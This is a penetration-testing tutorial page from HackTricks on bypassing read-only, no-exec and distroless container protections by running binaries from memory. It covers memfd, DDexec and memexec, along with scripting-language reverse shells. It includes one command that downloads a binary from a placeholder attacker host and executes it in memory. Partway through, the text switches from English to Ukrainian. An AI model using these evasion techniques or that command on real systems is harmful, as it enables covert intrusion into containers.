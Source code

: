 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_вимагається вільне володіння польською мовою в письмовій та усній формі_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In the following videos you can find the techniques mentioned in this page explained more in depth:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec scenario

It's more and more common to find linux machines mounted with **read-only (ro) file system protection**, specially in containers. This is because to run a container with ro file system is as easy as setting **`readOnlyRootFilesystem: true`** in the `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

However, even if the file system is mounted as ro, **`/dev/shm`** will still be writable, so it's fake we cannot write anything in the disk. However, this folder will be **mounted with no-exec protection**, so if you download a binary here you **won't be able to execute it**.

{% hint style="warning" %}
From a red team perspective, this makes **complicated to download and execute** binaries that aren't in the system already (like backdoors o enumerators like `kubectl`).
{% endhint %}

## Easiest bypass: Scripts

Note that I mentioned binaries, you can **execute any script** as long as the interpreter is inside the machine, like a **shell script** if `sh` is present or a **python** **script** if `python` is installed.

However, this isn't just enough to execute your binary backdoor or other binary tools you might need to run.

## Memory Bypasses

If you want to execute a binary but the file system isn't allowing that, the best way to do so is by **executing it from memory**, as the **protections doesn't apply in there**.

### FD + exec syscall bypass

If you have some powerful script engines inside the machine, such as **Python**, **Perl**, or **Ruby** you could download the binary to execute from memory, store it in a memory file descriptor (`create_memfd` syscall), which isn't going to be protected by those protections and then call a **`exec` syscall** indicating the **fd as the file to execute**.

For this you can easily use the project [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). You can pass it a binary and it will generate a script in the indicated language with the **binary compressed and b64 encoded** with the instructions to **decode and decompress it** in a **fd** created calling `create_memfd` syscall and a call to the **exec** syscall to run it.

{% hint style="warning" %}
This doesn't work in other scripting languages like PHP or Node because they don't have any d**efault way to call raw syscalls** from a script, so it's not possible to call `create_memfd` to create the **memory fd** to store the binary.

Moreover, creating a **regular fd** with a file in `/dev/shm` won't work, as you won't be allowed to run it because the **no-exec protection** will apply.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) is a technique that allows you to **modify the memory your own process** by overwriting its **`/proc/self/mem`**.

Therefore, **controlling the assembly code** that is being executed by the process, you can write a **shellcode** and "mutate" the process to **execute any arbitrary code**.

{% hint style="success" %}
**DDexec / EverythingExec** will allow you to load and **execute** your own **shellcode** or **any binary** from **memory**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Для отримання додаткової інформації про цю техніку перевірте Github або:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) є природним наступним кроком DDexec. Це **DDexec shellcode demonised**, тому що щоразу, коли ви хочете **запустити інший бінарний файл**, вам не потрібно перезапускати DDexec, ви можете просто запустити shellcode memexec за допомогою техніки DDexec, а потім **спілкуватися з цим демоном, щоб передати нові бінарні файли для завантаження та виконання**.

Ви можете знайти приклад того, як використовувати **memexec для виконання бінарних файлів з PHP реверс-шелу** за адресою [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

З подібною метою до DDexec, техніка [**memdlopen**](https://github.com/arget13/memdlopen) дозволяє **легше завантажувати бінарні файли** в пам'ять для подальшого виконання. Це може навіть дозволити завантажувати бінарні файли з залежностями.

## Distroless Bypass

### Що таке distroless

Контейнери distroless містять лише **найнеобхідні компоненти для запуску конкретного застосунку або служби**, такі як бібліотеки та залежності виконання, але виключають більші компоненти, такі як менеджер пакетів, оболонка або системні утиліти.

Мета контейнерів distroless полягає в тому, щоб **зменшити поверхню атаки контейнерів, усунувши непотрібні компоненти** та мінімізуючи кількість вразливостей, які можуть бути використані.

### Реверс-шел

У контейнері distroless ви, можливо, **навіть не знайдете `sh` або `bash`**, щоб отримати звичайну оболонку. Ви також не знайдете бінарні файли, такі як `ls`, `whoami`, `id`... все, що ви зазвичай запускаєте в системі.

{% hint style="warning" %}
Отже, ви **не зможете** отримати **реверс-шел** або **перерахувати** систему, як зазвичай.
{% endhint %}

Однак, якщо скомпрометований контейнер, наприклад, запускає flask web, тоді python встановлений, і тому ви можете отримати **Python реверс-шел**. Якщо він запускає node, ви можете отримати Node rev shell, і те ж саме з більшістю будь-яких **скриптових мов**.

{% hint style="success" %}
Використовуючи скриптову мову, ви могли б **перерахувати систему**, використовуючи можливості мови.
{% endhint %}

Якщо немає **захистів `read-only/no-exec`**, ви могли б зловживати своїм реверс-шелом, щоб **записувати у файлову систему свої бінарні файли** та **виконувати** їх.

{% hint style="success" %}
Однак у таких контейнерах ці захисти зазвичай існують, але ви могли б використовувати **попередні техніки виконання в пам'яті, щоб обійти їх**.
{% endhint %}

Ви можете знайти **приклади** того, як **використовувати деякі вразливості RCE** для отримання реверс-шелів скриптових мов та виконання бінарних файлів з пам'яті за адресою [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Якщо вас цікавить **кар'єра в хакерстві** та зламати незламне - **ми наймаємо!** (_вимагається вільне володіння польською мовою в письмовій та усній формі_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримка HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
